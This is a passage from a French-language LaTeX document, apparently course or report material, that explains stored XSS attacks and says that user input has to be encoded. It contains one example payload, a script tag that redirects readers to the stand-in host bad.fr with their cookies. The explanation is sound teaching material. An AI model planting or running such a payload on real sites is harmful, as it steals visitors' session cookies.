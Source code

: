 Dans ce type d'attaque avec persistance, les données fournies par l'utilisateur sont enregistrées sur le serveur pour ensuite être réaffichées sans que les caractères spéciaux HTML aient été encodés. Ce type de site web sont dits vulnérables aux attaques XSS. On parle improprement de faille XSS en confondant l'attaque et la vulnérabilité. Une seule injection permet d'atteindre un grand nombre de victimes sans avoir à recourir à l'ingénierie sociale. Il est donc primordial que toutes les données reçues par l'application web soient encodées.


\paragraph{Exemple de stored XSS :} 
Un cracker écrit un post sur le blog d'un site vulnérable, le contenu ci-dessous :
\begin{verbatim}
blablabla. <script>location.href='http://bad.fr/?cookie='+document.cookie</script>
\end{verbatim}
L'attaquant récupèrera les valeurs des cookies de tous les futurs lecteurs de son poste.
La figure~\ref{stored_xss} illustre ce principe dans le cas général.

\begin{figure}[!h]
	\begin{center}
		\includegraphics[scale=\scalekad]{images/xss/stored_xss}
		\caption{Attaque Stored XSS }		
		\label{stored_xss}
	\end{center}
\end{figure}












\subsection{Exploitation}

\subsection{Contre-mesure}

Les contre-mesures sont les mêmes que celles du reflected XSS puisque la faille est la même. Ce  n'est que la méthode d'exploitation qui diffère.


